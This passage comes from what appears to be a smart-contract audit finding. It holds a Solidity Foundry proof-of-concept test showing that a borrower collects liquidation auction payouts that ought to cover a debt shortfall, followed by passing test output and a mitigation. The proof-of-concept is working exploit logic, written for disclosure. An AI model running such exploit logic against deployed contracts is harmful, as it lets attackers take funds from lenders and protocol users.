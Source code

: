 ```solidity
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), address(0), 0);
+        //!! borrower get the payouts that should be used to reduce the shortfall debt
+        vm.expectEmit(true, true, false, true);
+        emit Transfer(address(controller), borrower, payouts);
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        controller.purchaseLiquidationAuctionNFT(auction2, price, purchaser, oracleInfo);
+
+        //!! borrower wins
+        uint256 afterBalance = debtToken.balanceOf(borrower);
+        assertEq(afterBalance - beforeBalance, payouts);
+        assertGt(payouts, 2.4e18);
+    }
+
+    function _addCollaterals() internal {
+        vm.startPrank(borrower);
+        nft.setApprovalForAll(address(controller), true);
+        IPaprController.Collateral[] memory c = new IPaprController.Collateral[](2);
+        c[0] = collateral;
+        c[1] = IPaprController.Collateral({id: collateralId+1, addr: nft});
+        controller.addCollateral(c);
+        vm.stopPrank();
+    }
+
+    function _loanMaxAndSell() internal {
+        oracleInfo = _getOracleInfoForCollateral(collateral.addr, underlying);
+        IPaprController.SwapParams memory swapParams = IPaprController.SwapParams({
+            amount: controller.maxDebt(oraclePrice*2) - 4,
+            minOut: 1,
+            sqrtPriceLimitX96: _maxSqrtPriceLimit({sellingPAPR: true}),
+            swapFeeTo: address(0),
+            swapFeeBips: 0
+        });
+        vm.prank(borrower);
+        controller.increaseDebtAndSell(borrower, collateral.addr, swapParams, oracleInfo);
+    }
+}
```

Test output:

    Running 1 test for test/paprController/PoC.sol:PoC
    [PASS] testPoC() (gas: 720941)
    Test result: ok. 1 passed; 0 failed; finished in 1.21s

### Tools Used

VS Code

### Recommended Mitigation Steps

The debt shortfall should be recorded and accumulated when the debt is burnt directly. Fill the shortfall first in later liquidation.
